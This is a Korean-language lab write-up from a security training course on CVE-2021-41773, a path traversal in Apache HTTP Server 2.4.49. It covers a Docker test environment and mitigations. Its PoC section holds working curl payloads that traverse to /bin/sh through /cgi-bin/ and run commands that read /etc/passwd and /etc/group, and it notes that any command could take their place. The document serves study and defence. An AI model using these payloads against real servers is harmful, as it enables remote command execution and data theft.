



# CVE-2021-41773
화이트햇 스쿨 4기 - 신혜진

## 1. 취약점 요약
 
- CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발생한 경로 순회(Path Traversal) 취약점이다. 정규화된 URL 경로를 처리하는 로직이 변경되면서, `%2e%2e` 형태로 인코딩된 `../` 시퀀스를 제대로 필터링하지 못해 웹 루트 밖의 파일에 접근할 수 있게 되었다.


## 2. 환경 구성

### 디렉터리 구조
```
whs/cve-2021-41773/
├── docker-compose.yml
├── Dockerfile
├── httpd.conf
├── README.md
├── 1.png   (실행 결과 - /etc/passwd)
├── 2.png   (실행 결과 - /etc/group)
└── 3.png   (환경 빌드/기동 결과)
```

### 실행 방법

```bash
sudo docker compose up -d --build
```
위 명령어로 테스트 환경을 실행합니다.


 
`cve-2021-41773-apache-1` 컨테이너가 정상적으로 기동된 것을 확인합니다.


## 3. 취약 조건


## 4. 재현 절차

1. `sudo docker compose up -d --build`로 이미지를 빌드하고 컨테이너를 실행한다.
2. `curl`로 경로 순회 payload를 전송해 `/bin/sh`가 CGI로 실행되도록 유도하고, POST body에 담은 명령이 실행되는지 확인한다.
3. 응답 결과를 확인하고 캡처한다.


```bash
# 1. 환경 빌드 및 실행
sudo docker compose up -d --build
 
# 2. 컨테이너 정상 기동 확인
curl -I http://localhost:8080/
```


## 5. PoC 코드

경로 순회를 이용해 `ScriptAlias`로 지정된 `/cgi-bin/` 경로의 CGI 실행 대상을 `/bin/sh`로 바꿔치기한다. HTTP 요청의 POST body는 `/bin/sh`의 표준입력으로 전달되어 셸 명령으로 실행되므로, 아래 예시는 임의 명령 실행이 가능함을 보여준다. `cat` 명령은 실증을 위한 예시일 뿐이며 원칙적으로 임의의 시스템 명령으로 대체 가능하다.
 
```bash
# (1) /etc/passwd 열람
curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  -d 'echo; cat /etc/passwd'
 
# (2) /etc/group 열람
curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  -d 'echo; cat /etc/group'
```
 
`--path-as-is` 옵션은 curl이 URL을 자체적으로 정규화(`../` 제거)하는 것을 막기 위해 필요하다. `.%2e/`를 4회 반복하는 이유는 `ScriptAlias` 매핑 지점인 `/usr/local/apache2/cgi-bin/`에서 `/`(루트)까지 4단계를 거슬러 올라가야 하기 때문이다.


## 6. 실행 결과

### (1) /etc/passwd 열람 결과


### (2) /etc/group 열람 결과



## 7. 대응 방안

1. **버전 업그레이드**: Apache HTTP Server 2.4.51 이상으로 업그레이드한다. (2.4.50은 패치가 불완전하여 CVE-2021-42013으로 우회 가능하므로 2.4.51 이상을 권장)
2. **불필요한 CGI 비활성화**: `mod_cgi`/`mod_cgid`가 필요하지 않다면 `LoadModule` 자체를 제거하거나 `ScriptAlias` 설정을 제거한다.
3. **명시적 접근 제어**: `<Directory />`에 기본값으로 `Require all denied`를 적용하고, 실제로 서비스해야 하는 경로에만 `Require all granted`를 개별 지정한다.
4. **WAF/IPS 룰 적용**: `%2e%2e`, `.%2e` 등 인코딩된 경로 순회 패턴을 탐지·차단하는 규칙을 웹 방화벽에 적용한다.
5. **최소 권한 원칙**: 웹 서버 프로세스(`www-data`)의 파일 시스템 접근 권한을 최소화하여, 취약점이 발생하더라도 피해 범위를 제한한다.
